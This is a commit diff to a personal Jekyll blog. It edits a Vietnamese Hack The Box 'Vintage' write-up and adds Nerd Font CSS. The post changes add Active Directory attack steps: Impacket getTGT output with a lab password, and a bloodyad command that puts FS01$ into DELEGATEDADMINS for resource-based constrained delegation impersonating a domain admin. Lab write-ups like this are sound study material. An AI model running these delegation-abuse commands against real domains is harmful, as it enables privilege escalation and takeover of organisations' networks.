

Before and after one commit to Luv3rie/Luv3rie.github.io, a Jekyll site: the page built from _posts/2026-11-12-htb-vintage.md, in a window 1280 px wide and 1400 px high, scrolled down 358 px. Shown: the whole window at 92% size, without its empty margins (256-1259 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add htb-vintage 3 & fonts

````diff
--- a/_posts/2026-11-12-htb-vintage.md
+++ b/_posts/2026-11-12-htb-vintage.md
@@ -17,7 +17,7 @@ attack_path:
     edge: genericAll
   - node: svc_sql
     type: user
-    edge: password reuse
+    edge: Password Reuse
   - node: c.neri
     type: user
     edge: DPAPI
@@ -120,6 +120,8 @@ LDAP        DC01            389    DC01             gMSA01$
 LDAP        DC01            389    DC01             FS01$
 ```
 
+## 2. Tài khoản máy pre2k
+
 Nhiều khả năng FS01$ là tài khoản pre2k nên mình thử dùng module pre2k của NetExec, không hiểu sao nó không hốt được `FS01$` nhưng thử tay thì lại được.
 
 
@@ -408,13 +406,19 @@ Unknown     : Uncr4ck4bl3P4ssW0rd0312
 
 Khác với constrained delegation cổ điển (cấu hình nằm trên tài khoản đi mạo danh), RBCD đặt cấu hình trên tài khoản bị mạo danh - ở đây là DC. Ta đưa `FS01$` vào `DELEGATEDADMINS`, rồi dùng S4U2self + S4U2proxy để tự cấp một vé `cifs/DC01` mạo danh một domain admin (`l.bianchi_adm`):
 
+> Ta cũng có thể dùng `c.neri_adm` để mạo danh luôn gọi là SPN-less RBCD nhưng nó loằng ngoằng hơn là dùng tài khoản máy tính.
+
 ![](/assets/img/htb-vintage/bloodhound-3.png)
 
-> Mạo danh một tài khoản admin không có sẵn như `l.bianchi` thường có xác suất thành công cao hơn `Administrator` vì `Administrator` mặc định mang cờ `NOT_DELEGATED` trong UAC.
+> Mạo danh một tài khoản admin không có sẵn như `l.bianchi_adm` thường có xác suất thành công cao hơn `Administrator` vì `Administrator` mặc định mang cờ `NOT_DELEGATED` trong UAC.
 
 Thêm `FS01$` vào nhóm:
 
-```
+```fish
+  getTGT.py vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312
+Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
+
+[*] Saving ticket in c.neri_adm.ccache
   export KRB5CCNAME=c.neri_adm.ccache
   bloodyad -k -d vintage.htb -H DC01.vintage.htb add groupMember DELEGATEDADMINS 'fs01$'
 [+] fs01$ added to DELEGATEDADMINS
--- a/assets/css/fonts.css
+++ b/assets/css/fonts.css
@@ -118,3 +118,21 @@
   src: url(../fonts/jetbrains-mono-latin-500-normal.woff2) format('woff2');
   unicode-range: U+0000-00FF,U+0131,U+0152-0153,U+02BB-02BC,U+02C6,U+02DA,U+02DC,U+0304,U+0308,U+0329,U+2000-206F,U+20AC,U+2122,U+2191,U+2193,U+2212,U+2215,U+FEFF,U+FFFD;
 }
+
+/* Icon Nerd Font (prompt fish/starship, logo distro...). Chỉ tải khi trang có ký tự trong vùng này. */
+@font-face {
+  font-family: 'Symbols Nerd Font Mono';
+  font-style: normal;
+  font-display: swap;
+  font-weight: 100 900;
+  src: url(../fonts/symbols-nerd-font-pua.woff2) format('woff2');
+  unicode-range: U+E000-F8FF;
+}
+@font-face {
+  font-family: 'Symbols Nerd Font Mono';
+  font-style: normal;
+  font-display: swap;
+  font-weight: 100 900;
+  src: url(../fonts/symbols-nerd-font-md.woff2) format('woff2');
+  unicode-range: U+F0000-FFFFD;
+}
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -17,7 +17,7 @@
   --t-gpo: #8fb8ff;
 
   --sans: "Be Vietnam Pro", system-ui, -apple-system, "Segoe UI", sans-serif;
-  --mono: "JetBrains Mono", ui-monospace, "Cascadia Mono", Consolas, monospace;
+  --mono: "JetBrains Mono", "Symbols Nerd Font Mono", ui-monospace, "Cascadia Mono", Consolas, monospace;
 
   --measure: 44rem;
   --pad: clamp(1.1rem, 4vw, 2rem);
@@ -125,7 +125,7 @@ main { min-height: 70vh; }
 .mini { list-style: none; margin: .55rem 0 0; padding: 0; display: flex; flex-wrap: wrap; gap: .3rem .5rem; font-size: .85rem; color: var(--mute); }
 .mini li { display: inline-flex; align-items: center; gap: .4rem; position: relative; }
 .mini li + li { padding-left: .9rem; }
-.mini li + li > span::before { content: ""; position: absolute; left: 0; top: 50%; width: .55rem; border-top: 1px solid var(--faint); }
+.mini li + li > span::before { content: ""; position: absolute; left: .2rem; top: 50%; width: .3rem; border-top: 1px solid var(--faint); }
 .mini__end { font-family: var(--mono); color: var(--ink); font-size: .82rem; }
 
 .diff { font-size: .78rem; font-weight: 600; padding: .05rem .45rem; border: 1px solid currentColor; border-radius: 3px; line-height: 1.5; }
````
Also changed, not shown: other parts of _posts/2026-11-12-htb-vintage.md (+1 -5 lines), assets/fonts/LICENSE-nerd-fonts.txt (added), assets/fonts/symbols-nerd-font-md.woff2 (added), assets/fonts/symbols-nerd-font-pua.woff2 (added).
